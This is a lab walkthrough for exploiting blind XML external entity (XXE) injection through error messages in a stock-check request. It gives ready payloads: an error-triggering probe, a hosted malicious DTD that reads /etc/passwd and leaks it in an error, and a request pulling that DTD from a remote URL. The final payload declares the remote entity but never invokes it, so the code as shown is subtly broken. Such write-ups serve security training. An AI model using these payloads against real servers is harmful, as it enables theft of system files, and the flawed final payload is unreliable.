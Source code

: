 # Lab: Exploiting blind XXE to retrieve data via error messages

> Lab Objective: use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

- Check Stock for any product then intercept the request.

- You'll notice that the POST Data is sent in an XML Format.
  ![1st screenshot](./attachments/1.png)

- Try to trigger an XMl Parsing Error using this payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % xxe SYSTEM "file://doesntmatter.txt">
    %xxe;
]>
<stockCheck>
    <productId>
        1;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- You'll notice the error:
  ![2nd screenshot](./attachments/2.png)

- To exfiltrate contents of `/etc/passwd` file.

- Host this payload on exploit server:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval " <!ENTITY &#x25; xxe SYSTEM 'file:///doesntmatter/%file;'>">
%eval;
%xxe;
```

- Then Use this payload in Check Stock Request:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE attacker [
    <!ENTITY % remote SYSTEM "YOUR-DTD-URL">
]>
<stockCheck>
    <productId>
        1;
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```

- And the response should contain `/etc/passwd/' file contents.
  ![3rd screenshot](./attachments/3.png)

- And the lab is solved successfully.
  ![4th screenshot](./attachments/4.png)

---
